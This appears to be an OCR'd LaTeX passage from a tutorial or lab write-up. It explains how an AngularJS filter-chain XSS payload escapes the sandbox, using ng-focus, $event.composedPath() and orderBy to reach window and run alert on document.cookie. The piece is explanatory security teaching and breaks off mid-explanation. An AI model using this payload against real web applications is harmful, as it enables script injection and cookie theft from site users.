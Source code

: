 \documentclass{article}
\begin{document}
\begin{itemize}
\textbf{2. Hash Fragment: \texttt{\#x}}
\begin{lstlisting}[frame=single]
#x
\end{lstlisting}
\begin{itemize}
    \item Focuses element with \texttt{id="x"}
    \item Triggers \texttt{ng-focus} event automatically
\end{itemize}


\textbf{3. \$event Object Reference}
\begin{lstlisting}[frame=single]
$event
\end{lstlisting}
\begin{itemize}
    \item \textbf{AngularJS variable} referencing the DOM event object
    \item Provides access to event properties and methods
\end{itemize}

\textbf{4. composedPath() Method}
\begin{lstlisting}[frame=single]
$event.composedPath()
// Returns: [input#x, body, html, document, window]
\end{lstlisting}
\begin{itemize}
    \item \textbf{Chrome-specific property} (formerly \texttt{\$event.path})
    \item Returns array of elements in \textbf{event propagation path}
    \item \textbf{Last element = window object} - Critical for the exploit!
\end{itemize}

\subsection*{The Filter Chain Exploit}

\textbf{\texttt{| orderBy} Filter Operation}
\begin{lstlisting}[frame=single]
// Normally: array | orderBy:expression
[1,2,3] | orderBy:'property'

// Exploit: event path | orderBy:malicious code
$event.composedPath() | orderBy:'(z=alert)(document.cookie)'
\end{lstlisting}

\textbf{Why This Bypasses Angular Security}
\begin{lstlisting}[frame=single]
// Angular's window check blocks:
orderBy:'window.alert(1)'  // BLOCKED - explicit window reference


\end{lstlisting}
\end{itemize}
\end{document}
